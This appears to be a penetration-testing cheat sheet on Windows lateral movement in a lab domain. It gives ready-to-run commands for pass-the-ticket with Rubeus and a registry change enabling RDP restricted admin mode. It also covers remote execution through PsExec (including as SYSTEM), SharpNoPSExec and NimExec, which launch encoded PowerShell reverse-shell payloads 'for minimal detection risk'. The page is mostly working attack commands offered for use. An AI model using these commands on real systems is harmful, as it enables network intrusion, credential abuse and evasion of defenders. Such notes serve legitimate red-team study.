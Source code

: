 ```yaml
---
description: PSEXEC | Evil-WinRM | WMI | NimExec | SharpNoPSExec
---
```


# Windows Lateral Movement

### <mark style="color:yellow;">Remote Desktop Service</mark>

#### New RDP Session with Pass The Ticket

```powershell
# New Window
.\Rubeus.exe createnetonly /program:powershell.exe /show

# Forge a TGT
.\Rubeus.exe asktgt /user:mczen /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:zencorp.local /ptt

# Start RDP
mstsc.exe /restrictedAdmin
```

{% hint style="danger" %}
Restricted Admin Mode enables Pass The Hash or Pass the Ticket.

```powershell
# Check if enabled
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin

# Enable, by set to 0
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD
```
{% endhint %}

### <mark style="color:yellow;">Lateral movement with PsExec, SharpNoPSExec, NimExec</mark>

<table><thead><tr><th>Tool</th><th>Functionality</th><th width="242">Features</th><th>Authentication</th><th data-hidden>Features</th></tr></thead><tbody><tr><td>PsExec</td><td>Remote command execution using SMB and named pipes</td><td>Starts a service (<code>PsExecsvc</code>), provides an interactive shell</td><td>Username/Password or NTLM</td><td></td></tr><tr><td>SharpNoPSExec</td><td>Lateral movement via service manipulation</td><td>No new services created, uses existing services with LocalSystem privileges</td><td>Username/Password or NTLM</td><td></td></tr><tr><td>NimExec</td><td>Fileless command execution via SCM Remote Protocol</td><td>Uses RPC packets and SMB for execution, cross-platform</td><td>NTLM Hash or Password</td><td></td></tr><tr><td>Reg.exe</td><td>Lateral movement via registry manipulation</td><td>Utilizes the <code>winreg</code> SMB pipe to modify registry keys, enabling RCE</td><td>Remote Registry access (Username/Password)</td><td></td></tr></tbody></table>

```powershell
# PsExec
.\PsExec.exe \\SRV02 -i -u ZENCORP\joe -p pass123 cmd

# PsExec run as system
.\PsExec.exe \\SRV02 -i -s -u ZENCORP\joe -p pass123 cmd

# SharpNoPSExec for minimal detection risk. Use nc on vm.
.\SharpNoPSExec.exe --target=172.20.1.12 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUsddfsAKAApAA=="

# NimExec - Use nc on vm.
.\NimExec -u zen -d zencorp.local -p pass123 -t 172.20.1.12 -c "cmd.exe /c powershell -e JABjAGwAaQBsdflAG...SNIP...AbwBzsdfsAGUAKAApAA==" -v

```